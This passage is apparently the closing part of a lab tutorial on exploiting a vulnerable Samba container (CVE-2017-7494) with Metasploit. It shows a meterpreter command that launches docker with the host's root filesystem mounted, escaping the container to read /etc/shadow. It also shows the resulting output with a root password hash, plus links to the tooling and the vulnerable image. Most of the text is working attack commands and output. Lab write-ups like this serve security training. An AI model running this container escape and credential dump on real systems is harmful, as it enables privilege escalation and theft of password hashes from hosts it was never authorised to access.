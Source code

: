 And finally, using docker to have access to the host file system.

``` shell
execute -f /docker -i -H -c -a "run --rm -v '/:/rootfs' debian:9.2 cat /rootfs/etc/shadow"
```

And that is it, you've escaped the container and dumped the machine local user
hashes, the output will look like:

``` shell
meterpreter > execute -f /docker -i -H -c -a "run --rm -v '/:/rootfs' debian:9.2 cat /rootfs/etc/shadow"
Process 113 created.
Channel 13 created.
root:$1$UFKdtFGw$qp29y1qGWit/vnvIG0uSr1:17488:0:99999:7:::
daemon:*:17488:0:99999:7:::
bin:*:17488:0:99999:7:::
sys:*:17488:0:99999:7:::
sync:*:17488:0:99999:7:::
games:*:17488:0:99999:7:::
man:*:17488:0:99999:7:::
lp:*:17488:0:99999:7:::
mail:*:17488:0:99999:7:::
news:*:17488:0:99999:7:::
```

# References

- [Metasploit docker image](https://github.com/opsxcq/docker-metasploit)
- [Vulnerable container](https://github.com/opsxcq/exploit-CVE-2017-7494)
